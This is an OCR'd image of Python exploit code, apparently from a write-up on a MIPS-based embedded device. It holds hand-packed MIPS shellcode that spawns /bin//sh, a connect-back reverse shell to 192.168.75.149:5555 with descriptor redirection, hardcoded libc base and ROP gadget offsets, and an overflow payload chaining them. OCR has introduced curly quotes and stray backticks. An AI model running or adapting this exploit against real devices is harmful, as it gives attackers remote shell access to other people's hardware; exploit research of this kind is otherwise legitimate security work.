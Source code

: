 ```

p.send(payload)

p.recvuntil(’</html>’)

#raw_input()

p.close()

#base address of libc.so.0

base1=0x2ab88000

###shellcode

sc=struct.pack(">I",0x24060101)

sc+=struct.pack(">I",0x04d0ffff)

sc+=struct.pack(">I",0x2806ffff)

sc+=struct.pack(">I",0x27bdffe0)

sc+=struct.pack(">I",0x27e41001)

sc+=struct.pack(">I",0x2484f023)

sc+=struct.pack(">I",0xafa4ffe8)

sc+=struct.pack(">I",0xafa0ffec)

sc+=struct.pack(">I",0x27a5ffe8)

sc+=struct.pack(">I",0x24020fab)

sc+=struct.pack(">I",0xafa00108)

sc+=struct.pack(">I",0x0101010c)

sc+="/bin//sh\x00"

shellcode =’’

shellcode += asm(shellcraft.connect(‘192.168.75.149’,5555))

shellcode += asm(shellcraft.dup2(5,0))

shellcode += asm(shellcraft.dup2(5,1))

shellcode += sc `s0=struct.pack(">I",base1+0x2C794)

s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;…;jr $t9

s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)

s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;…;lw $ra,0x30;jr $ra

s4=struct.pack(">I",base1+0x2bdac)

###rop

payload1=‘a’*0x167+s0+s1+s2+s3

```